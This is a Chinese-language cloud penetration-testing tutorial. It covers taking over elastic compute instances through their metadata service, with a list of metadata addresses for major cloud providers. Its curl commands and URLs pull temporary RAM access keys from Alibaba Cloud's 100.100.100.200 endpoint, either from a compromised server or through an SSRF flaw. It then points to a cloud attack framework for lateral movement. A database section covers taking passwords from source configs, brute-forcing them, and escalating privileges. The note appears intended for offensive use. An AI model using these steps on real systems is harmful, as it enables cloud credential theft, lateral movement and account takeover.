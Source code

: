 
---
弹性计算-云数据库-实例元数据-控制角色-AK控制台接管

➢ 云服务-弹性计算-元数据&SSRF&AK

➢ 云服务-云数据库-外部连接&权限提升

---
元数据解释：

实例元数据（metadata）包含了弹性计算云服务器实例在阿里云系统中的信息，您可以在运行中的实例内方便地查看实例元数据，并基于实例元数据配置或管理实例。（基本信息：实例ID、IP地址、网卡MAC地址、操作系统类型等信息。实例标识包括实例标识文档和实例标识签名，所有信息均实时生成，常用于快速辨别实例身份。）

各大云元数据地址：

阿里云元数据地址：http://100.100.100.200/

腾讯云元数据地址：http://metadata.tencentyun.com/

华为云元数据地址：http://169.254.169.254/

亚马云元数据地址：http://169.254.169.254/

微软云元数据地址：http://169.254.169.254/

谷歌云元数据地址：http://metadata.google.internal/

细节方面可通过访问官网找元数据访问触发说明，阿里云例子：https://help.aliyun.com/zh/ecs/user-guide/manage-instance-metadata

# 云服务-弹性计算-元数据&SSRF&AK

1、前提条件：

```
-弹性计算配置访问控制角色

-SSRF漏洞或已取得某云服务器权限（webshell或漏洞rce可以访问触发url）
```

2、利用环境1：获取某服务器权限后横向移动

-获取关键信息

```
curl http://100.100.100.200/latest/meta-data/

curl http://100.100.100.200/latest/meta-data/ram/security-credentials/
```

-获取临时凭证

```
http://100.100.100.200/latest/meta-data/ram/security-credentials/ecs
```

-利用AK横向移动

CF 云渗透框架项目：https://wiki.teamssix.com/CF/

3、利用环境2：某服务器上Web资产存在SSRF漏洞

-获取关键信息
```
http://100.100.100.200/latest/meta-data/

http://100.100.100.200/latest/meta-data/ram/security-credentials/
```

-获取临时凭证

```
http://100.100.100.200/latest/meta-data/ram/security-credentials/ecs
```

-利用AK横向移动

CF 云渗透框架项目：https://wiki.teamssix.com/CF/

# 云服务-云数据库-外部连接&权限提升

1、帐号密码：

```
源码配置中找到（几率高）或爆破手段（几率低）
```

2、连接获取：

```
-白名单&外网 直接Navicat支持连接

-内网需要其中内网某一个服务器做转发
```
3、AK利用（权限提升）

CF 云渗透框架项目：https://wiki.teamssix.com/CF/